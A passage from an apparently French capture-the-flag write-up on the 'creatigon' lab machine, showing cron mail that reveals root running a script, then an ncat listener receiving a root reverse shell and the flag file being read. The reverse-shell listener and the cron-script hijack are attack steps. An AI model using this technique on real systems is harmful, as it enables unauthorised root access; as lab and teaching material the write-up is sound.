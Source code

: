 En regardant les mails de l'utilisateur on voit que c'était un indice supplémentaire :  

```plain
downfall@creatigon:~$ mail
"/var/mail/downfall": 2202 messages 2202 new
>N   1 Cron Daemon        Tue Dec  5 12:30  21/773   Cron <root@creatigon> root /lib/logs/homeless.py
? 2100
Return-path: <root@creatigon.localhost>
Envelope-to: root@creatigon.localhost
Delivery-date: Mon, 19 Feb 2018 19:02:01 -0500
Received: from root by creatigon.localhost with local (Exim 4.89)
        (envelope-from <root@creatigon.localhost>)
        id 1envNh-0008TY-Rr
        for root@creatigon.localhost; Mon, 19 Feb 2018 19:02:01 -0500
From: root@creatigon.localhost (Cron Daemon)
To: root@creatigon.localhost
Subject: Cron <root@creatigon> cd /lib/logs/ && ./homeless.py
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1envNh-0008TY-Rr@creatigon.localhost>
Date: Mon, 19 Feb 2018 19:02:01 -0500
Status: O
X-UID: 2116

./homeless.py: 1: ./homeless.py: import: not found
./homeless.py: 2: ./homeless.py: Syntax error: word unexpected (expecting ")")
```

Désormais on peut placer les commandes que l'on souhaite dans le script Python et obtenir notre reverse shell root :  

```plain
$ ncat -l -p 9999 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.2.3.
Ncat: Connection from 192.168.2.3:35872.
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag.txt
cat flag.txt
Well done!.

Woo! woo! woo. You Got it!..
Really Appreciate to solve my challenge....

This is my first time challenge..
I hope next time will be more better than this one!...

Thanks
Min Ko Ko
hi@creatigong.com

http://www.creatigon.com
http://www.mmsecurity.net
https://www.facebook.com/l33twebhacker
```